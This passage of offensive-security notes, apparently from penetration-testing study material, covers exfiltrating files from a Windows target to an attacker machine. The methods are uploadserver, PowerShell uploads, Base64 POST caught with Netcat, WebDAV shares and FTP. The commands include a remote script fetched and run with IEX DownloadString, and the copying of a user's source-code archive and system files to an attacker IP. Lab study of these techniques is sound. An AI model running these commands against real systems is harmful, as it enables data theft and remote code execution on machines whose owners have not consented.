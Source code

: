 Install and run `uploadserver` on attacker:
```bash
pip3 install uploadserver
python3 -m uploadserver
# File upload page at http://<ip>:8000/upload
```

PowerShell upload helper (example):
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

---

### PowerShell Base64 Web Upload (POST + Netcat)

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Catch with Netcat on attacker and decode:
```bash
nc -lvnp 8000
echo <base64> | base64 -d -w 0 > hosts
```

---

### SMB Uploads & WebDAV

If SMB is blocked externally, WebDAV is useful (SMB over HTTP). Use `wsgidav` to serve a writable HTTP/WebDAV share.

```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

From Windows target:
```cmd
dir \\192.168.49.128\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\DavWWWRoot\
```

`DavWWWRoot` is a Windows shell keyword mapping to WebDAV root.

---

### FTP Uploads

Start FTP with write permissions:
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
